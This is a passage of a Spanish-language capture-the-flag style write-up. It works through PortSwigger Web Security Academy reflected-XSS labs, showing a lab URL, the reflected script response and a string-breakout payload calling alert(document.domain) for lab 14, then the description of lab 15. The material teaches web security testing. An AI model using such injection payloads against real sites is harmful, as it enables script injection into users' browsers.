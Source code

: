 ## 14. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

Como se codifican los caracteres **< >** entonces, lo que haremos será romper la cadena e ingresar nuestro payload.

URL

```
https://ace71fd51f81802680da0524003700b4.web-security-academy.net/?search=aaa
```

Respuesta

```
<script>
    var searchTerms = 'aaa';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

Entonces diseñamos el siguiente payload.

```
'-alert(document.domain)-'
```

![](img40.png)

## 15. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```
